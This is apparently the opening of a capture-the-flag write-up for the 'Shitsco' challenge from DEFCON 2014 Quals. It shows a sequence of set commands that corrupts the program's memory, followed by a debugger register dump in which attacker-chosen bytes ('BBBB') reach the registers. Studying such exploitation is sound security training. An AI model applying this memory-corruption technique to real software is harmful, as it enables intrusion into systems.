

# Shitsco (DEFCON 2014 Quals)
Welcome to Shitsco Internet Operating System (IOS)
For a command list, enter ?
$ set a aaaaaaaaaaaaaaaa
$ set b bbbbbbbbbbbbbbbb
$ set a
$ set b
$ set c AAAABBBBCCCCDDDD
$ show
c: AAAABBBBCCCCDDDD
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fb7000 --> 0x1b1db0
ECX: 0xffffffff
EDX: 0x42424242 ('BBBB')
ESI: 0xffffd038 --> 0x80499f6 --> 0x25000a73 ('s\n')
EDI: 0x42424242 ('BBBB')
EBP: 0xffffd478 --> 0xffffd4b8 --> 0x804c2ec --> 0x8049b0c ("show")
ESP: 0xffffcf90 --> 0xf7fb7d60 --> 0xfbad2a84
EIP: 0xf7e49353 (<vfprintf+8899>:       repnz scas al,BYTE PTR es:[edi])
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)